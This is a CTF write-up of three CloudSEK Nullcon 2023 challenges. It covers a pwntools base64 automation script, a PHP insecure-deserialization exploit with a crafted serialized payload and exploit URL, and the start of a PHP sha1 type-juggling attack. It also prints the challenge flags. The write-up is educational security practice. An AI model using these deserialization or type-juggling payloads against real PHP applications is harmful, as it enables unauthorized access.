 # CloudSEK - Nullcon Cyber Security CTF 2023 

> ClouSEK's CTF challenge during NULLCON 2023

<br />

## Challenges

### Scripting
- [Bases](#bases)

### Web
- [Serialization Saga](#Serialization-Saga)
- [The SHA Juggler](#The-SHA-Juggler)

<br />

------------------------

<br />

## Bases

Points: 100

Description:
- Do you Know Your Bases?
- PS: No Bruteforcing is required
- This Challange does not require you to access any other Port
- ` nc 43.204.152.119 1337 `


When connecting to the server we are given with Base64 encoded text and we have to submit the Base64 decoded text in the input but doing so it keep asking
for new Base64 text


![image](https://github.com/Aftab700/Writeups/assets/79740895/aac2df14-9be2-4a4c-a9cf-ade5dccf249a)


Looking at the challenge category (`Scripting`), we can figure out that this process requires automation with the use of any scripting language. I'm am using  Python here

<details><summary markdown="span">Click to see python code :diamond_shape_with_a_dot_inside: </summary>

```python
from pwn import *

conn = remote('43.204.152.119', 1337)

a = conn.recvline()
print(a)
a = a.decode().split("\t")[1].split("\n")[0]
a = b64d(a)
print(a)

for i in range(2, 102):
    print(i)
    conn.sendline(a)
    a = conn.recvline()
    print(a)
    try:
        a = a.decode().split("\t")[1].split("\n")[0]
        a = b64d(a)
    except IndexError as e:
        print(e)
        pass
    # print(a)
    pass

# n=101 ; flag: CSEK{3he_bas3_dec04er}
conn.close()

```
</details>

<details><summary markdown="span">Click to see output :diamond_shape_with_a_dot_inside: </summary>

```powershell
PS D:\GitHub\ctf> python .\1.py
[x] Opening connection to 43.204.152.119 on port 1337
[x] Opening connection to 43.204.152.119 on port 1337: Trying 43.204.152.119
[+] Opening connection to 43.204.152.119 on port 1337: Done
b'What does this mean:\tblZNdGp4endmVzRrNTZoRHBsZUpLSXlMWDFQVWlDYloyY1RGZDhFMDM5T3ZzUkFtSGFCUUdnWVNvN3JOcXU=\n'
b'nVMtjxzwfW4k56hDpleJKIyLX1PUiCbZ2cTFd8E039OvsRAmHaBQGgYSo7rNqu'
2
b'> What does this mean:\tSGV6RjhocWF0MGlMUlBEQTFsTXJWS1VFNEpqVE9HTnhwMlhkNllCM3Y5U29zV0l3NXltYjdjbmtDUVpndWY=\n'
3
b'> What does this mean:\telc3S1JnODNTRXlNWXFQcDBqNEF0czZ1VXhmSWxhQkxta1puT0RUTlF2aDVlVmkxZGNIR2JYbzlGQ3JKMnc=\n'
4
b'> What does this mean:\tNHpiSk84Zm4yR2gzNWFLTHNXU1ZSQXkwWnZIN3FEZ2l1ZU45dGRyVUJtSXBUMUN4UTZNandFa1BYRmNvWWw=\n'
5
b'> What does this mean:\tVkZHQ3BydjBtWkExaHNkS0JQeTV1NGxqUlNuT01EaWdXYXc5dFQzZXFKTjhZUUliMlU2azdFY1h6SHhmTG8=\n'
6
b'> What does this mean:\tVmZ5UXZ3UnRHbjUwbWVwN1U0ck5kNkgzQmxjRVRBTzFrdXNLRkRqWWI5UG9XSlhocXpaZ0lDaUw4U3hNYTI=\n'
7
b'> What does this mean:\tdkdRbUVlckRTd1dUMml4SlJDNGdYYTMwTmgxOWNIejY4dFpWeXNvRnVPVWJCNTdwcWRuTWpQTGZLSWtsWUE=\n'
8
b'> What does this mean:\taE5KVXFrUnRXVnoxb2N5Z0ZmMFo4NW1CZGoySVFuVEFLN01PaTZIWUQ0M0xzYVNYcEV3UGVDcjlseHVHYnY=\n'
9
b'> What does this mean:\tSmFkWG1JMk9wVEg3am5yQ0dpOEt6OVo1eXE0eEUxZjNRZ0Z0NmV1QVVvQmJMd05QRGNsaE1Za1ZXUlMwc3Y=\n'
10
b'> What does this mean:\tZTN1cGd6UW1mSE5MQmRJODdLVnRGWk9jRUFZR1drYWJ2b0RpVDlSUzBscTVVd3NocjZNeDJQWGpuSkM0MXk=\n'
11
b'> What does this mean:\tVkN2UEJJSHJlMGlaRXhkTDNXZmJSMUtuTzhBZ29qVW1KVDdwWE15YWhxNHNTMndGOWx1UVljenQ1RGtORzY=\n'
12
b'> What does this mean:\tRWw2eEpoaUtudUFXTTNJRlZMWDBtWW9ITnExa2V2ZGNRYlB5MmdVclpwYURUT0M4U1I1ZnM3dEJqOUc0enc=\n'
13
b'> What does this mean:\tVmJ4cHJzRWNZZUZqbTVoWjYxSEt2U1JpZ0p6azlPZENHQldVQTBhTG9mUTdJVFBxeU50d2xEM1g0Mm51TTg=\n'
14
b'> What does this mean:\taDdmMXhYa05aYjlHZ0U2SndtaXBRME92V2NqQWEzNWxJcmVxQlBSVkNZVXlUOEQyU3VuRk16ZDRvc0tIdEw=\n'
15
b'> What does this mean:\tVW9pRUN0Tzc2alNETjJaTVc0Rnh6clFrcVgxSElnZWJScDBQQm05eUd2Y3dhdXNLVDUzTEFoWWRWbG5KOGY=\n'
16
b'> What does this mean:\tVHYzVzhRWmFBandIS3ljaGcxck9FYlBlNEp0TTk1ZFJ1a0JvMlNtWExZVXpscXhuZjBGN0dpNkRDTnBzSVY=\n'
17
b'> What does this mean:\td0ZaUXZuZm1BY05SREdUalNpVXJzMXl4dGhLNFhiSnVrWUU4UE1JSHBnQk96N1dsVjJhM0M2ZExvOTBxZTU=\n'
18
b'> What does this mean:\tNzZmakxLeU5NYmNZQ3dUV2QxSnpIbHN0b1FVOWV4NDBtYVJGcjVCSXFaVkFrR1hoTzN2bmkyRURwUGdTOHU=\n'
19
b'> What does this mean:\tTkRqN29CUFR0OVVPUXZoMkxBNHl4U0V3QzZhM1pzZUhxaW1HRmtuZklLWWdWYjFKOHBsdVIwclhjNU16ZFc=\n'
20
b'> What does this mean:\tQjhIMllTalJyTjRWSmU5V25rYmNwcUZaRVB4aG9YS0Q3RzBheUFJc3Y2Q1F3VDUxbXVpVWxPdGczTGZ6ZE0=\n'
21
b'> What does this mean:\tQ2lLY3FTTkxvRm1XVVRSM0R1UFk4ZnpudjcwUUpieWFqNXQyVk9oR0lwRWRneDFYNEFlczZCa0haTWw5d3I=\n'
22
b'> What does this mean:\tSGxQcHhlOFNhZzN3N01GaU9zQ0oya1hZTmgxb1VJVDU0Yks2eVIwV3JHQlZRTDlxdkVqdW1BZER6WmNudGY=\n'
23
b'> What does this mean:\tR3psdWY1ZWtJcThUTXh0b1lFN1ZuTGhVSzIzQVdwQ3liY1BzUURtOUhnWnJYaXdKNE5SRk9CMVNkdmFqNjA=\n'
24
b'> What does this mean:\tRFNkTXR3eDhZZ3lHT0ExNG5YaG9GUWxXOTdiSEpjNkxhQzJ1WmVta3BzSzUzVlROclB2QmpVMHpSaWZxRUk=\n'
25
b'> What does this mean:\tM09OMjBaWURWbEx3SUtkSmJmaHU1Ukh0cEVBazZ4TW9URzRYUzFjVXpyQ1BqOG5naXZReXFGOVdCN3NhbWU=\n'
26
b'> What does this mean:\tUEZzek9veU1wNnRaZ0hMSkdiMDI3YWNXQWt1UmxkMWV2VU5JaVF4VlRZOW1Dd0RFSzNmcXI4U2g1Qm5YajQ=\n'
27
b'> What does this mean:\tRTdoVzhUSXBOb3REUGFuNHZzSDk1ZVJ6MlNPNmNNTGozcXdVaVpRQmRHS21GdXhDZnJYa3kwZzFsQVZiSlk=\n'
28
b'> What does this mean:\tYXZiTFRtV013OWxRWmVxSkg4QTRFQmtnQ2p5bnpPZllzdG83Y0d4S3VkRlJJaFY1cFNQRHJVMjE2M05YaTA=\n'
29
b'> What does this mean:\tV1oyNFl3M2lEWHRVMUVQcW1mdmJsUU5qQjB4OFI2a1ZMVENySmhTRktBR3pkOU1uZW9jdU9Ic2dJeTc1cGE=\n'
30
b'> What does this mean:\tYkFWZnY1VEIxWkpqN08zaHNOVVBJOG9uUWFGbFI2ckxrV3F5bXAyeDA0Z0RTaVlLQ3pHRXdjSDlYZE1ldXQ=\n'
31
b'> What does this mean:\tdGNkMUhTSURLVWFPZzhXWnhHRmtobG5CdVFOVkFYam95czJmWTUwYjRNRVJpdnpyTGVKVHc5cTNQN3BDNm0=\n'
32
b'> What does this mean:\tcDloNmdsYkZubVZFUTdPQ0JENHZHS2pIV3g4STFhZU5SekxYQTBmVHlzdTV3a0p0UzNjcm9xZFBVWVoyTWk=\n'
33
b'> What does this mean:\tcnFqN3pMdTlRMWNUQUU1Tml3OHlnU3NoRmQ0SkllWjBiM2E2S21PWFZvdld0TWZsR0RZVW54SENwUmtQQjI=\n'
34
b'> What does this mean:\tdnVoaVh4cTFLWWxBUWpOT1M2a0hwYTVDM29QMHJCc1VJOEV0OUQ0YmNWUkZMZm55Sk16d1ptZGVUN1dnMkc=\n'
35
b'> What does this mean:\tS3c0TkFEMDVsN3lWVWlmbk1jYVRHMWVrU1c2dFJvSTlKRWJPTEZoQjh4WlF6UHVxM21qdlhzcFlDSHJnMmQ=\n'
36
b'> What does this mean:\tN3JkdVN0NmxqZkZucUxVM2I0MFZDcHZOWmN6NU9LSXM5SldNZ1gyaERpUkhha1BBVDFCeUVHd29ZbThRZXg=\n'
37
b'> What does this mean:\tQjR3RUZJRDlybE9xYmc4R1h2SHRWNjNZaFNkZW95WnVVSmN6a2lLbm1MUEFNUVIyVHA1MUNmTnMwN2phV3g=\n'
38
b'> What does this mean:\ta1NwUEd2YmhtamNFSXlKMGlud05YVVZETWxBcllnTEZUN3RRMk80NWZDbzN4Ukh1ZTE5enNLWmE2VzhxZEI=\n'
39
b'> What does this mean:\tek1aZ2NyYUtvQ0lEYll4NzR0UVZoSGp2MHAzc3FQeWw4a0ZTOWZlbjE1TlRXT0xVWEVCd2kybXVkSlJBRzY=\n'
40
b'> What does this mean:\tc1RSVWlqTU9Ka1M0UFlabUlOcTVocjMxRDJ1eVZ3V2ZRR0VGeHRwSEFLOWxYZXZDZGMwYWJ6ODZnQm5Mbzc=\n'
41
b'> What does this mean:\tNzlDMWU0bWw1dnJFU2dBWlg2UXN0Zld6Rk5wRE0wZG93cTNMS2NZdWthSGJVTzhCUlZ4Sm55aFBJVEdqMmk=\n'
42
b'> What does this mean:\tWDZoQmFHN2o4Vk51Y1dpUmVsU2Z6QTV3OUNyM0tIVG5iT0l4UUR5czBrb2QxUExwbU1ndHZxVUY0WllKMkU=\n'
43
b'> What does this mean:\tRHlOMkhoQUJLT0xxV2djMTVDanN0cGlWWWRyUlNmOEdabDd1SkVROXZQbU1GeG80bjNUYlhla0lhejYwVXc=\n'
44
b'> What does this mean:\tNUYxMmJmWHFHdG4wdVJBYWxjVDM4aU9KTUxaeHBDTnlRV2drSTlIcjZoRG1QVmpLZDdzWUJTdjRVZW9Fenc=\n'
45
b'> What does this mean:\tbk5Cb1NnUnNYY0ZFeE1Rdjc1T2tiZVVaemZUMkdyeXB3Q0hoYWQ4TEpXMWlQRDRJQUszVnVZMDZsam05cXQ=\n'
46
b'> What does this mean:\tV3h6UElTMDhteVI5aUZZRUtvUUxjSlZYRHdHZ05xNWtNdkI2ZHNBZm5sYXRwQ1p1ZVVyMTIzSDdoYmpPVDQ=\n'
47
b'> What does this mean:\tSWQyMUtSaFVQdlkzdUY5NGVRbENrQnhYYnBtY0hpV3JWc25PYVN0Z3lmQTg3VEpOTERFNXpHcVp3MGpvTTY=\n'
48
b'> What does this mean:\tb0RqdUJnYjJNcDZZQTdjMGtRWExhVGY5bkdpMW1zM1dPSWhFd2R5bENTenhSdEZIS3Y1clVOOGVaSnFQNFY=\n'
49
b'> What does this mean:\tRXcyaXhWNUczN2FDUTRSNkpTcHlxMURrSFRkQmUwRnR2TmxNb2pnVWZtQThMemhaUFdYcklLc09ZdW5iOWM=\n'
50
b'> What does this mean:\tT2RYaFZ2ek1FV3dDSGYybG8zNE5xMGNpZW03Rkl1QkpHOGJaYXA1eTkxU3NuallLREw2VEFRVWtQeFJ0Z3I=\n'
51
b'> What does this mean:\tTHNweGZ1emE0SVFFblRxaTU2dGJGZ1JoTW9BQzNsUGVqR0hLN3JKd1ZYODlOT3ZaMlV5MURja21CMGRXU1k=\n'
52
b'> What does this mean:\teWM5bGl6M0FrcW5XcFFOVjJYdjZZN1pteHNMd2gwdTFNUlVGNW9mdEI4RGdKYmFPSFRqQ3JFS0lQZWQ0R1M=\n'
53
b'> What does this mean:\tR296NTlTRENoYmRzWXBMbXhUWml2OGUyUHFjUWtWbEVuVWc0RnJCN1gzZkFXeTBITjZhdU90d0lqS00xSlI=\n'
54
b'> What does this mean:\tZlpoUEJYVVFTOFlscTN6VnljUnZwRE5ka0F3N245MjZpeEdJT3RUbTEwNUtiakVzZ0pGYUh1b2U0TUNXckw=\n'
55
b'> What does this mean:\tUEFKUUY2OGVWYnA0TmtqMFpXWTNjZHd1N1RubFh5MXRhbXFnU0lCeExVMk9LaEVSc0c5cjVpQ0Rmdm9ITXo=\n'
56
b'> What does this mean:\tNnhpU1BmcXQ0MHJ3empXN00zSkxIZ2hac3ZDUlhlbEZJTjFEVUdWZFFvblliT3lBRTJUYUttOGNrNXB1Qjk=\n'
57
b'> What does this mean:\tUDFYYnpNRGdFQkNXMGV2WTZuU3E3eDJOUWxkNW05YUFUTDRaVXlHZkhrRm93T2ozY0ppckt1cGh0VnM4Ukk=\n'
58
b'> What does this mean:\tRnRhSzBMdlJicm1Ya3pDWUluUzZBUUJVNW9zdUh4V0VPOGhNZXlkTkRKcWNmaVYyUHc0ZzczcFRHajFsOVo=\n'
59
b'> What does this mean:\tY0hpYm1SOEVBelp1WWszTzE5NWx2MlVmVlNwNEtRdGdUTFhuTlBEV0Z3SmVzckcwQzZCYXhkcXlqSU1obzc=\n'
60
b'> What does this mean:\tZnFVYlk3TkpPeTMwZVdER0xGUWtDVm1zd2FabEU2Qk1pS2hYdXZUOW81bkhJODQxdHJBU2Myamd6eHBQZFI=\n'
61
b'> What does this mean:\tajk0NnowN0VsR2tLc3gxVzJpblpOTFlRZUozcXRkbUFYNXJmYW84SE1JUndPdXZWeVVjcGdoQ2JUUEJTREY=\n'
62
b'> What does this mean:\tVWtMdmExaGQ5QlNxeVRQWkVHbGM1RGdzekEzTVFwaUowS0hZQ21Jb1JydzhGWFZldWZqbjJPNzR0TjZXYng=\n'
63
b'> What does this mean:\tUzVnVURHbVZuWlQwejNpUElsT0trOWR2Y2pIZVl1WEpzQjJ4V0ZoQTFwYXd0cU5mTW9yNHk2QzdSOExFYlE=\n'
64
b'> What does this mean:\tZEFzYXk3TFdvOVlycFMxVXV4ZU5qR25jRno2QzBINU9nVHdrSVZpSmhCYktmcTgybTN0RGw0UE1RWlhFdlI=\n'
65
b'> What does this mean:\tSXJRMFA1dDdkQ0RMbUt6T2lOMmNuUldzQnZsNHF1VjY5aHdZVGVTYmdqVWtGb0hFZjhNMTNhcFpKWHhBR3k=\n'
66
b'> What does this mean:\tejlaa3FlNXZKNEdmMFdBSXNWaG83YUZZYktUMU1jUXlOd3JQU2xSZ3BFQjJMNmp0T0hkQzhVdVhteG5EaTM=\n'
67
b'> What does this mean:\teVhQUjNrS3NwZ2RMb2xaVVNUTXF3QjRRZTdEOVd2NjJiTjBHWXhDaGpmRmFySm1BOEl1Vk9FaUh0emNuMTU=\n'
68
b'> What does this mean:\tYXdYOUlKR1prdVlXUGpVcXA2NTJIRWlURm9NMXowTzhLU0FiTmc3bGQ0TFZDY1JoeWVmRHZuUXJtM0J0eHM=\n'
69
b'> What does this mean:\tZEZQN21PVW9ZQnYwOHBRTGg5d0tiZ015Mm5XY0laM0RpbENyVkE1MUg2RUc0U0p1VE5mcWFSZXNYanp0a3g=\n'
70
b'> What does this mean:\taFlHRDByY21QM2ZsekNXMVVvSDYyYUlUZGpxOEtSTmVGNHNYTWJ0Z2s1dlNPUUV1Sm5CaVY5cFp5N0x3QXg=\n'
71
b'> What does this mean:\tbmI1aWg0am9rckdEM1kwOUtwcUpGUGZzN1hjV3ptQXVUQ0I2Z05sOFJFTUxhWkhVSU90UWUyU3d5eHZWZDE=\n'
72
b'> What does this mean:\tV3hscWtKejh5VTRzdkh3cDdqY1h0dWQ2ZURTVEtpVkJBMVI5UWhHWlluNTJhTE1nRWJOM28wbU9ySUNGUGY=\n'
73
b'> What does this mean:\tRnhJTHp0cDVLeU1PZVRQWEIyZHdvYzhIU0R2TjNHNHJuZ2k3UVlDVWtBRVIxVkp1WnM2bGhtYmZqOVdxMGE=\n'
74
b'> What does this mean:\tUlpocTl4bkxCUXJ1WHAwc1R3ZjFDem1qRGJNT3ZkMzg2eVNhVkpLNTRBaVVJMkZ0WW9lY2tsTjdFUFdIZ0c=\n'
75
b'> What does this mean:\tSlN5a0h3enhRVW1iTWo4YUFyREN0czJpbGYwRVZvRm5ZWFd1OXFCWmdOZGU3S1JoUFRjNjF2TzVJRzRMM3A=\n'
76
b'> What does this mean:\tOVNSMW5jV2xtbzI1NGR5dVUwUUhpT0R2c2FxaFY2elA3Q3JBWWZNQkZHRXhnazhlS2J3cFhMSXQzSk5aVGo=\n'
77
b'> What does this mean:\tdnJTUFRlbmpHZmRFVTBXSzJGd0kza1liNHN4WmhDQW9NWExWbWxpNUI3SlE4Z3F0dTlPeWMxTkR6NnBhSFI=\n'
78
b'> What does this mean:\tcWwydEJ4OVlETmc2M2hHbmlPSmZ3a1RwUG1WTUVkSXl2MTgwTHI1ekhhVWVYNGJRN0Z1Q1pLaldTQWNSb3M=\n'
79
b'> What does this mean:\tc1hvWkJKNzk0cFEzZG1URXdNajBueERPUHJnTld6cUxpVXZidHlSRkhBbGs1dVkxSzZJaFZhQzhTZmNlMkc=\n'
80
b'> What does this mean:\tbWQwakZmMmlRWUpiZVpSaHBOa09jdTRWUE1FQXRMc1R6SEk2S3hXQmd2d0c1bFVuQzhTeVhvcWExM3I3OUQ=\n'
81
b'> What does this mean:\tSFVXbVRvWUR3MTBTYU5meHNBZ1Fqa0VWdkxoT3RGeUN6MjM4ZDRsQks3Y1JNcXA5clhHUDZaNUludWlKZWI=\n'
82
b'> What does this mean:\tNGgwRXc1cW1XS0NEMk55OWJrUGNCYUdGcDNUSHhSSmpYTDhzZzE3T3VuQVlvU3ZJVXJsZTZWaU1kdFFmelo=\n'
83
b'> What does this mean:\tVTZHaVgwVFJueFZZZEQzenZCNGhmRkNKTGpLdW9FZ2tIWnRNTnJjMnlxc0FsUThXcEk1ZXcxOWJPUFNhN20=\n'
84
b'> What does this mean:\tNmVwbUJrTWFMSlRpWHN6TjcyUG9LM3JsU3hmRjA0WTh1d0NFYmdocWNabmREMUhHVVZ2Ulc1QVFqOXlPSXQ=\n'
85
b'> What does this mean:\tekpBaVY3RnlNbzRSV3ZHT2pxWVhwY2U5Q3MyYnVsUGs2OG5yWndkUzB4M0hmSU4xbVFCREVndDVVYUtoTFQ=\n'
86
b'> What does this mean:\tbHNHOU1KUVdidTJ2TGo3ZmtPMUhOWWV5RlRtM2NadDB6YXBCOFVpRGRBNm5xRTVJWGdWd1NLUlBveENoNHI=\n'
87
b'> What does this mean:\tVUc3UWVEZnFOU1l2bzJzQTNpVE1tUGN4VjUwQ1prcmRYVzRIYmhnbGFSOEJ1MUtFaklGcG5Kenc2T0x0OXk=\n'
88
b'> What does this mean:\tenhQSFVqU2Ezc084b2VRS3V0djFnYjVCN0FHMnJXNGZpZEZEMHlxWmxJWGtKUnBDRTlWTUw2d2NUbk5tWWg=\n'
89
b'> What does this mean:\taHBHY2RNMmdXVjRLaUNVSnV0blBRcmFPZnltTnNIUmowSThEVExiQTdCOWxFWTV4cTZYZW9TM1p2Rncxems=\n'
90
b'> What does this mean:\tcEZXbUUxM2FEWG9NOWxVczhpNGg2QmVUeHFmZ2tMellKSUhiQ1ZuT1Nyd1JqZHVHS3YyWjA1Y1B0eUFRTjc=\n'
91
b'> What does this mean:\tcEo0OWxWcXN3ODI2anREQ2MzN094S3J6RW5QMXZORklTVFpVWTVtZUdMeTBkUWJNSGZYaG9hQXVnUkJpa1c=\n'
92
b'> What does this mean:\tZU83UzVOOWp6aXNUb2hsSks0clpuNmJ3eFh1cVdtRVEyR2R0cFlhTUJDSWtBOEhEZ2N5VmYzUlAwMUx2VUY=\n'
93
b'> What does this mean:\tVmNSMDhiNkkyZ1M1czdyaHZqNFlUZnlOSm5BSzNYRnFXZFo5d2FCVUd1UTFMaXpleENPa29sREhQdG1NcEU=\n'
94
b'> What does this mean:\tb09TUDIxTUhXc1hUeHFydmpWN21FOENpNXQ2WjNmdXcwS2VuVURSYWtGSkxibFFCZGNwTnlnQWhHNFl6STk=\n'
95
b'> What does this mean:\taG1IMlR0Q2IwOGRaSVNxOVZQSnVyN0JPallveTZNRkVmcEtMUkdEWFdVa2F4c1F3QW52ZzM1Y2llemw0TjE=\n'
96
b'> What does this mean:\tc0RGYVZBRWR3eWpaNlBmYlVCN1hwTWtRTE80MXQyM1dvZVJ1bU5UbDU5SUtIaXJ6MGdZRzhKdmh4bmNDcVM=\n'
97
b'> What does this mean:\tVkpIM1FabWZSdjVOOEVJc1l5MVdpRmF3ZGxiS0dEWDcweEx6a01ocUJQQ29PZVVTVHRuNHIyY2c5QXBqdTY=\n'
98
b'> What does this mean:\teUs5YU04cUp3U0NmaHBFVmlYM2wydVVrZEcwUmJuakx6bUFnUUI0WnM2dHZXTzVJUGN4WTFURkhOZTdEb3I=\n'
99
b'> What does this mean:\tSHltaGdNVWNJUTdvM3J3RFB1WmVuZlRLWXhxYjZOWHZHanpTOEZ0aU8yOUVBa1JkSldWc2wwTDRwQkMxNWE=\n'
100
b'> What does this mean:\tSnpzNkVCUTdZRloyd3JlNHUzVU1Sa2xtTHBPZzVkV1hEOXFiaHgwdmpTVlAxeUdUTkNuS2NmQTh0YWlISW8=\n'
101
b'> CSEK{3he_bas3_dec04er}\n'
list index out of range
[*] Closed connection to 43.204.152.119 port 1337
```
</details>

Flag: `CSEK{3he_bas3_dec04er}`

<br />

## Serialization Saga

Points: 100

Description:
- This Capture The Flag (CTF) challenge is designed to assess your ability to identify and exploit fundamental insecure deserialization vulnerabilities. Can you successfully execute the necessary functions and retrieve the flags? Lesssgoo!
- PS: No Bruteforcing is required
- https://webctf.cloudsek.com/serialization-saga

On the webpage we can see the php code


![image](https://github.com/Aftab700/Writeups/assets/79740895/f610570a-6070-4f62-b5ba-b84f0f129bfc)


<details><summary markdown="span">Click to see PHP code :diamond_shape_with_a_dot_inside: </summary>

```php
<?php

error_reporting(0);

class CloudSEK  {

    private $func_no;
    private $func_name;

    function __construct($no , $name)  {
        if ($no == NULL && $name == NULL)   {
            $this->func_no = $no;
            $this->func_name = $name;
        }
    }

    function __wakeup()  {
        $func_map = array(
            1 => "XVigil",
            2 => "BeVigil",
            3 => "GetMeDemFlagz",
        );
        
        $func_no = $this->func_no;
        $func_name = str_rot13($this->func_name);

        if ($func_map[$func_no] === $func_name)  {
            $this->$func_name();
        }
        else    {
            echo "<h3>Invalid Object Data</h3>";
        }
    }

    function XVigil()   {
        echo "<h3>XVigil is a cybersecurity platform designed to help organizations monitor and mitigate potential security threats and vulnerabilities across the digital landscape.</h3>";
    }

    function BeVigil()  {
        echo "<h3>World's first Security Search Engine mobiles that makes sure the applications installed in your phone are safe.</h3>";
    }

    function GetMeDemFlagz()    {
        $flag_file = "/tmp/flag.txt";
        if (file_exists($flag_file))    {
            $file_contents = file_get_contents($flag_file);
            echo $file_contents;
        }
        else    {
            $err_msg = "<h3>File Not Found!</h3>";
            $file_contents = $err_msg;
            echo $err_msg;
        }
    }
}

// $cloudsek = new CloudSEK(1 , "XVigil");
$sess = $_GET["sess"];
if (!isset($sess))  {
    exit();
}
$data = base64_decode($sess);
$obj = unserialize($data);

?>

```
</details>


![image](https://github.com/Aftab700/Writeups/assets/79740895/614e9955-4dfe-4861-93dc-727be8da744a)


In this code we can see that it is checking if GET parameter `sess` exist if yes Base64 decode it and parse it to php unserialize() 

There is also  `__wakeup()` function which is called on unserialize

to get the flag we have to call `GetMeDemFlagz` function. __wakeup function will perform rot13 on `func_name` and value of `func_no` should be index of the name of function in `func_map` array.


![image](https://github.com/Aftab700/Writeups/assets/79740895/26d57175-a6e9-4afa-a12d-265deadf4863)

Now lets create the payload

Object name would be `CloudSEK` <-- name of the class. 
func_no = 3 and func_name = rot13("GetMeDemFlagz")

```
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

Base64 decode this and put it in GET parameter `sess`

```
https://webctf.cloudsek.com/serialization-saga?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```


![image](https://github.com/Aftab700/Writeups/assets/79740895/828ee104-9265-40a6-980d-7bd5e97a6a9f)

Flag: `CSEK{PhP_0Bj3CT_D3$3R1L1Z@T10N}`

<br />

## The SHA Juggler

Point: 100

Description:
- Dive into the depths of "The SHA Juggler," a mysterious web challenge that tests your prowess in PHP type juggling, cunning encoding techniques, and web exploitation. Your mission is to outwit the system, leveraging the peculiarities of PHP type comparisons, decipher the applied encodings, and exploit vulnerabilities to retrieve the concealed flag. Can you navigate the enigmatic interplay of types and encodings and emerge victorious?
- PS: No Bruteforcing is required
- https://webctf.cloudsek.com/the-sha-juggler

in the pagesource of the webpage there is a variable `isThisNormal` which have long hex code, let's decode it

```
const isThisNormal = "50 44 39 77 61 48 41 4b 4c 79 38 67 65 57 39 31 58 32 5a 76 64 57 35 6b 58 32 31 6c 4c 6e 42 6f 63 41 70 70 5a 69 41 6f 61 58 4e 7a 5a 58 51 6f 4a 46 39 48 52 56 52 62 4a 32 68 68 63 32 67 6e 58 53 6b 70 49 48 73 4b 49 43 41 67 49 47 6c 6d 49 43 67 6b 58 30 64 46 56 46 73 6e 61 47 46 7a 61 43 64 64 49 44 30 39 50 53 41 69 4d 54 41 35 4d 7a 49 30 4d 7a 55 78 4d 54 49 69 4b 53 42 37 43 69 41 67 49 43 41 67 49 43 41 67 5a 47 6c 6c 4b 43 64 45 62 79 42 35 62 33 55 67 64 47 68 70 62 6d 73 67 61 58 52 7a 49 48 52 6f 59 58 51 67 5a 57 46 7a 65 54 38 2f 4a 79 6b 37 43 69 41 67 49 43 42 39 43 69 41 67 49 43 41 6b 61 47 46 7a 61 43 41 39 49 48 4e 6f 59 54 45 6f 4a 46 39 48 52 56 52 62 4a 32 68 68 63 32 67 6e 58 53 6b 37 43 69 41 67 49 43 41 6b 64 47 46 79 5a 32 56 30 49 44 30 67 63 32 68 68 4d 53 67 78 4d 44 6b 7a 4d 6a 51 7a 4e 54 45 78 4d 69 6b 37 43 69 41 67 49 43 42 70 5a 69 67 6b 61 47 46 7a 61 43 41 39 50 53 41 6b 64 47 46 79 5a 32 56 30 4b 53 42 37 43 69 41 67 49 43 41 67 49 43 41 67 61 57 35 6a 62 48 56 6b 5a 53 67 6e 5a 6d 78 68 5a 79 35 77 61 48 41 6e 4b 54 73 4b 49 43 41 67 49 43 41 67 49 43 42 77 63 6d 6c 75 64 43 41 6b 5a 6d 78 68 5a 7a 73 4b 49 43 41 67 49 48 30 67 5a 57 78 7a 5a 53 42 37 43 69 41 67 49 43 41 67 49 43 41 67 63 48 4a 70 62 6e 51 67 49 6b 4e 54 52 55 74 37 62 6a 42 66 4e 47 78 68 5a 31 38 30 58 33 56 39 49 6a 73 4b 49 43 41 67 49 48 30 4b 66 53 41 4b 50 7a 34 3d";
```

It is double encoding: hex > Base64

Tool used to decode: https://gchq.github.io/CyberChef/#

after decoding it with hex and Base64 we get php code

<details><summary markdown="span">Click to see code :diamond_shape_with_a_dot_inside: </summary>

```php
<?php
// you_found_me.php
if (isset($_GET['hash'])) {
    if ($_GET['hash'] === "10932435112") {
        die('Do you think its that easy??');
    }
    $hash = sha1($_GET['hash']);
    $target = sha1(10932435112);
    if($hash == $target) {
        include('flag.php');
        print $flag;
    } else {
        print "CSEK{n0_4lag_4_u}";
    }
} 
?>

```
</details>

This is php code for file `you_found_me.php` and it will check for GET parameter `hash` and to get the flag it will check for the condition if `sha1(10932435112) == sha1($_GET['hash'])`

But before this it will check if `$_GET['hash'] === "10932435112"` if yes die.

We can see that for the flag condition it is using `==` in `$hash == $target`. this is loosely comparision

The `sha1 of 10932435112 = 0e07766915004133176347055865026311692244` and in php this is treated as scientific E-notation.

Scientific E-notation is used to write very long numbers in a short form, `1e6` is `10^6` which is `1000000`

